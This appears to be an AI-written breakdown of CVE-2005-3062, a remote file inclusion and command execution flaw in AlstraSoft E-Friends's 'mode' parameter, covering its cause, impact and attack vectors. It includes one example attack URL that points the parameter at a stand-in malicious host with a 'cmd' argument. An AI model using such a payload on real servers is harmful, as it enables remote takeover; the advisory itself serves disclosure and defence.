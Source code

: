 Based on the provided content, here's the breakdown of CVE-2005-3062:

**Root Cause of Vulnerability:**
The vulnerability stems from the AlstraSoft E-Friends application improperly handling user-supplied input, specifically within the `mode` parameter. This allows for the injection of arbitrary URLs and commands through the application's web interface.

**Weaknesses/Vulnerabilities Present:**
- **Remote Command Execution (RCE):** The core vulnerability is the ability to execute arbitrary commands on the server.
- **Lack of Input Validation:**  The application fails to sanitize or validate the input provided to the `mode` parameter.
- **URL Injection:** The application allows the injection of arbitrary URLs that can be used to execute remote commands.

**Impact of Exploitation:**
- **Full system compromise:** An attacker could gain complete control of the affected server via the command execution vulnerability.
- **Data Breach:**  Sensitive data stored on the server could be exposed.
- **Website Defacement:**  The attacker could modify the content of the website.
- **Malware Distribution:** The server could be used to host and distribute malware.

**Attack Vectors:**
- **HTTP GET Request:** The attack is performed by crafting a malicious URL that injects commands through the `mode` parameter.
- **Remote:** The attacker can perform this attack remotely.
- **No Authentication:**  No authentication is required to exploit this vulnerability.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker must have network access to the vulnerable server.
- **Basic HTTP knowledge:** Ability to manipulate HTTP requests.

**Additional Details:**
- **Example Vulnerable URL:** `http://www.ownz.net/index.php?mode=http://evilcode?&cmd=` demonstrates how an attacker injects a URL that could contain malicious commands.
- **CVSS Score:** A base score of 7.5/10 (High) was assigned with an exploitability subscore of 10/10, highlighting the ease of exploitation.
- **No Solution:** The security advisory indicates no available solution.

The provided content from secunia.com does not contain any information regarding this CVE.